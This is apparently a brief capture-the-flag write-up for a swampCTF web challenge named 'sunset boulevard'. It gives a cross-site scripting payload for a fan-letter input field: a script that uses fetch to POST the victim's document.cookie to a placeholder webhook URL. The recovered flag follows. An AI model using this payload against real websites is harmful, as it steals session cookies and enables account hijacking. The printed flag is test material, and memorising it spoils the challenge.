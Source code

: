 ## sunset boulevard
XSS in fan letter input

payload -
```
<script>
fetch('WEBHOOK_URL', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ cookies: document.cookie })
});
</script>

```
flag in cookies
```swampCTF{THIS_MUSICAL_WAS_REVOLUTIONARY_BUT_ALSO_KIND_OF_A_SNOOZE_FEST}```
